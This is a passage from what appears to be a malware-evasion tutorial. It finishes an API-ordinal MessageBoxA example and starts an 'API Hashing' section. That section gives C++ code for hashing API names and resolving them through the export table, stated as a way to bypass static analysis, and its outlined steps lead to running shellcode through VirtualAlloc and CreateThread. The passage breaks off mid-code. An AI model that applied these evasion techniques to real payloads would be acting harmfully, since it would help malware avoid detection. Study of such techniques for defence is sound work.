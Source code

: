 ```cpp
        return 1;
    }

    // Call the resolved MessageBoxA function
    OrdinalBoxA(NULL, "Hello, World!", "Test MessageBoxA", MB_OK | MB_ICONINFORMATION);

    // Free the DLL
    FreeLibrary(hModule);
    return 0;
}
```
As we previously went through the tiring process of dissecting the c++ code, everything in the above code should be clear.

--- 
### API Hashing
##### About
Similar concept as API ordinals but a bit different. While we use API ordinals to avoid IAT/string-based detection and resolve function names based on their ordinals at runtime, API hashing gives us the ability to hide clear-text API names and bypass static analysis.
Both concepts serve the same purpose: Evasion.
Here is how this technique works under the hood:
1. Calculate the hash of the function name.  
2. Iterate through the `EAT` of the target DLL and compare the hashes of the function names. 
##### Code
Here is how API Hashing process goes:
1. Calculate the hash of desired API function name.
2. Resolve the DLL containing this function. `kernel32.dll`
3. Resolve the function name by its hash.
4. Allocate executable memory with `VirtualAlloc`.
5. Copy our shellcode to the allocated memory.
6. Start a new thread using `CreateThread` to execute the payload.

```cpp
#include <Windows.h>
#include <iostream>

// Hash function to obfuscate API names
DWORD CalculateHash(const char* functionName) {
    DWORD hash = 0x35;  // seed
    while (*functionName) {
        hash = (hash * 0xAB10F29F) + (*functionName);
        hash &= 0xFFFFFF;  // keep result within 24 bits
        functionName++;
    }
    return hash;
}

// Get the base address of a loaded DLL
HMODULE GetModuleBase(const char* moduleName) {
    return GetModuleHandleA(moduleName);
}

// Resolve an API function by matching a precomputed hash against export names
FARPROC ResolveFunctionByHash(HMODULE hModule, DWORD targetHash) {
    if (!hModule) return nullptr;

    auto dosHeader = (PIMAGE_DOS_HEADER)hModule;
    auto ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + dosHeader->e_lfanew);

    DWORD exportDirRVA = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
    auto exportDir = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + exportDirRVA);
```